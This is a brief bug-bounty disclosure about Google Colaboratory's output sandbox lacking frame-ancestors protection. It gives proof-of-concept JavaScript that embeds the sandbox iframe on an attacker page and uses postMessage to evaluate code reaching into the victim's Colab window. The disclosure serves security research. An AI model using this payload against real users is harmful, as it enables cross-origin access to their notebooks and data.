 ```yaml
---
title: Insecure sandbox on Colaboratory (Awarded $1337, Not Fixed)
---
```


Google Colaboratory puts some output such as visualizations into a sandbox however it has no embedding protection such as csp frame-ancestors so the origin is exposed to attackers with local network access.

```js
let w = open('about:blank');
```

On about:blank

```js
opener.location = 'https://colab.research.google.com/';
```

Leak ID from unencrypted DNS then do:

```js
let IDfromDNS = 'blah';
let f = document.createElement('iframe');
f.hidden = true;
f.src =
  'https://' + IDfromDNS + '-0-colab.googleusercontent.com/outputframe.html';
document.body.appendChild(f);
setTimeout((_) => {
  f.contentWindow.postMessage(
    {sandboxed_iframe_evaluation: 'console.log(parent.opener[0].google)'},
    '*'
  );
}, 100);
```

On the "Welcome to Colaboratory" project using the sandbox embedded on the attackers website.

- `parent.opener[0].google` refers to stuff.
- `parent.opener[5].document` refers to the chart.

Sometimes sandboxes use a randomly generated subdomain for isolation unfortunately due to unencrypted DNS this is not safe. <https://www.cloudflare.com/learning/dns/dns-over-tls/>
